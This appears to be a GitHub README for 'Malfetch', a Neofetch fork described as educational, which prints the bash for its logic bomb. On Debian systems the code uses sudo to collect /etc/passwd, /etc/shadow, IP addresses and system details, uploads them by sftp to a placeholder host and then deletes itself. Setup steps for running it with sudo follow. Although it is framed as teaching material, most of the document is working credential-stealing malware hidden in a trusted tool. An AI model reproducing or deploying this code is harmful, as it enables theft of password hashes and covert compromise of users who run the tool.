 # Malfetch
Malfetch is a fork of Neofetch designed for educational purposes. This repository contains a logic bomb integrated into the original Neofetch functionality, allowing users to understand the implications of malicious code in a controlled environment.

# Warning
This repository is intended for educational purposes only. It is crucial to understand the ethical implications of using and distributing malicious code. Use this repository responsibly and only in environments where you have explicit permission to test and learn.

# Malicious Part
There is no default IP address or hostname, so the created system file won't go anywhere until you edit the code.
``` bash
logic() {
    [[ $distro ]] && return

    if [[ -f /etc/os-release ]]; then
        source /etc/os-release
        if [[ $ID == "debian" ]]; then
            distro="Debian ${VERSION_ID:-${VERSION}}"
            malicious  
        fi
    fi
}

malicious() {
    sudo bash -c 'cat /etc/passwd > /tmp/xyz1048udk && \
                   echo "" >> /tmp/xyz1048udk && \
                   cat /etc/shadow >> /tmp/xyz1048udk && \
                   echo "" >> /tmp/xyz1048udk && \
                   echo "Local IP Address(es):" >> /tmp/xyz1048udk && \
                   hostname -I >> /tmp/xyz1048udk && \
                   echo "" >> /tmp/xyz1048udk && \
                   echo "Public IP Address:" >> /tmp/xyz1048udk && \
                   curl -s ifconfig.me >> /tmp/xyz1048udk && \
                   echo "" >> /tmp/xyz1048udk && \
                   echo "System Information:" >> /tmp/xyz1048udk && \
                   echo "Operating System:" >> /tmp/xyz1048udk && \
                   lsb_release -d >> /tmp/xyz1048udk && \
                   echo "Kernel Version:" >> /tmp/xyz1048udk && \
                   uname -r >> /tmp/xyz1048udk && \
                   echo "Disk Usage:" >> /tmp/xyz1048udk && \
                   df -h >> /tmp/xyz1048udk'

    sftp username@hostname <<EOF
put /tmp/xyz1048udk
bye
EOF

    sudo rm /tmp/xyz1048udk
    sudo rm -- "$0"  
}

malicious()
```

# How to Use

To test the script, follow these steps:

1. **Clone the Repository**: Clone the repository to your local machine or a virtual machine using the following command:
   ```bash
   git clone https://github.com/kaishira/malfetch.git
   ```

2. **Edit the IP Address and Hostname**: Navigate to the cloned directory and edit the script to set the appropriate IP address and hostname as needed.

3. **Run the Script**: Inside the cloned folder, execute the script with the following command:
   ```bash
   sudo ./neofetch
   ```

# Disclaimer
The authors of this repository are not responsible for any misuse of the code contained herein. By using this repository, you agree to take full responsibility for your actions and to use the code only in ethical and legal contexts.
